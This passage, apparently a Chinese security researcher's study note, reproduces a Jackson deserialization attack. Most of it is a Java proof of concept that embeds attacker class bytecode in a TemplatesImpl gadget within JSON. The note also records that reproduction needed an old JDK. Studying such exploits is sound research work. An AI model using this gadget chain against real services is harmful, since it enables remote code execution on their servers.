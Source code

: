 poc

```
package Jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.*;


public class TestUser {
    public static void main(String[] args) throws Exception{

        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String evil = readClassStr("/Users/DawnT0wn/IdeaProjects/Spring/src/main/java/exp.class");
        String s = "{\"name\":\"DawnT0wn\",\"age\":22,\"flag\":[\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",{\"transletBytecodes\":[\"" + evil + "\"],\"transletName\":\"DawnT0wn\",\"outputProperties\":{}}]}";
        User user1 = objectMapper.readValue(s, User.class);
    }
    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

复现了很久，发现环境有问题，对于使用 `_tfactory.getExternalExtensionsMap()` 的JDK来说，由于Jackson无法给_tfactory(私有且无getter&setter)赋值，会抛出空指针异常没有进入下面的类加载过程。

最后[这篇文章](https://thonsun.github.io/2020/11/02/jackjson-fan-xu-lie-hua-lou-dong-li-yong-yuan-li/)的作者利用JDK1.6u45复现成功

![image-20220914180354852](images/26.png)
